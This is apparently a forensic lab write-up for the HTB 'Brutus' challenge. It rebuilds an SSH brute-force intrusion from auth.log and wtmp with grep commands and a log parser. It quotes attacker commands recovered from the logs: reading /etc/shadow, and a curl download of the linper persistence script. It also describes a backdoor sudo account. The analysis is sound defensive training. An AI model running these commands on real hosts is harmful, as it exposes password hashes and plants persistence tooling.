








**Prepared by:** Mulandii · **Difficulty:** Very Easy

## Description

An SSH server running Confluence was brute-forced. Use its authentication log and login records to rebuild what the attacker did.

## Artifacts Provided

`Brutus.zip` (SHA-256 `dd7742375a19b6ccc4323058224460a5220c43d4e9f7565b653bd369b8c46b2d`), password `hacktheblue`:

* `auth.log`: SSH logins, `sudo`, account changes and cron
* `wtmp`: binary login records
* `utmp.py`: HTB's parser for `wtmp`

## Skills Learnt

* Linux log analysis with `grep`, `sort` and `uniq`
* Spotting a brute force in SSH logs
* Correlating `auth.log` with `wtmp`
* Mapping attacker actions to MITRE ATT&CK

## Initial Analysis

The zip is AES-encrypted, so extract it with `bsdtar`:

```bash
mkdir Brutus_extracted && cd Brutus_extracted
bsdtar --passphrase hacktheblue -xf ../Brutus.zip
```

The host is `ip-172-31-35-28`. `auth.log` has 385 lines: 104 cron and 257 `sshd`. The incident is in the `sshd` lines.

> Open evidence in a plain text viewer or the terminal. LibreOffice reflowed `auth.log` into 2 lines when I saved it, so I restored it from the zip.
{: .prompt-warning }

## Questions

### 1. Analyze the auth.log. What is the IP address used by the attacker to carry out a brute force attack?

Count failed logins by source address:

```bash
grep 'Failed password' auth.log | grep -oE 'from [0-9.]+' | sort | uniq -c
```


_48 failed passwords, one address_

All 48 failures come from one address, within 9 seconds (06:31:33 to 06:31:42). They hit five usernames: `server_adm`, `svc_account`, `admin`, `backup` and `root`.

**Answer:** `65.2.161.68`

### 2. The bruteforce attempts were successful and attacker gained access to an account on the server. What is the username of the account?

Successful logins are `Accepted` lines:

```bash
grep 'Accepted' auth.log
grep 'Accepted' auth.log | grep 65.2.161.68
```


_All logins, then the attacker's only_

The attacker logged in as `root` at 06:31:40 and 06:32:44. The `root` login from `203.101.190.9` at 06:19:54 is not theirs. It has no failures before it and came 12 minutes before the attack.

**Answer:** `root`

### 3. Identify the UTC timestamp when the attacker logged in manually to the server and established a terminal session to carry out their objectives.

`auth.log` records authentication. `wtmp` records the terminal session. Parse `wtmp` with `TZ=UTC`, because the script prints local time (mine is UTC+3):

```bash
TZ=UTC python3 -I utmp.py wtmp
```


_The manual root session in wtmp_

```
USER  2549  pts/1  root         65.2.161.68  2024/03/06 06:32:45
```

The 06:31:40 login has no terminal. It was the brute-force tool. The 06:32:44 login is the manual one, and `wtmp` shows it at 06:32:45. HTB wants the date with dashes, not the parser's slashes.

**Answer:** `2024-03-06 06:32:45`

### 4. SSH login sessions are tracked and assigned a session number upon login. What is the session number assigned to the attacker's session for the user account from Question 2?

```bash
grep 'New session' auth.log
```


_Session 37 at 06:32:44_

`root` has three sessions. The one that starts at 06:32:44 is the manual login.

**Answer:** `37`

### 5. The attacker added a new user as part of their persistence strategy on the server and gave this new user account higher privileges. What is the name of this account?

```bash
grep -E 'useradd|usermod|groupadd' auth.log
```


_New user and sudo group change_

```
06:34:18  useradd  new user: name=cyberjunkie, UID=1002, GID=1002, home=/home/cyberjunkie, shell=/bin/bash, from=/dev/pts/1
06:35:15  usermod  add 'cyberjunkie' to group 'sudo'
```

`from=/dev/pts/1` is the terminal of the manual root session.

**Answer:** `cyberjunkie`

### 6. What is the MITRE ATT&CK sub-technique ID used for persistence by creating a new account?

A local account was created on the machine: Create Account, Local Account.

**Answer:** `T1136.001`

### 7. What time did the attacker's first SSH session end according to auth.log?

```bash
grep -E 'Removed session|session closed for user root' auth.log
```


_Session 37 ends at 06:37:24_

Session 37 ran from 06:32:44 to 06:37:24. The attacker disconnected it. Session 34 also ended, at 06:31:40, but that was the brute-force login.

**Answer:** `2024-03-06 06:37:24`

### 8. The attacker logged into their backdoor account and utilized their higher privileges to download a script. What is the full command executed using sudo?

```bash
grep 'COMMAND' auth.log
```


_sudo commands run by cyberjunkie_

```
06:37:57  COMMAND=/usr/bin/cat /etc/shadow
06:39:38  COMMAND=/usr/bin/curl https://raw.githubusercontent.com/montysecurity/linper/main/linper.sh
```

The log shows the download. It does not show the script being run.

**Answer:** `/usr/bin/curl https://raw.githubusercontent.com/montysecurity/linper/main/linper.sh`

## Summary

The attacker brute-forced `root` from `65.2.161.68` in 9 seconds, then logged in by hand about a minute later. They created `cyberjunkie`, added it to `sudo`, logged in as it, read `/etc/shadow` and downloaded a script. The intrusion lasts about 8 minutes.


_Brutus solved_
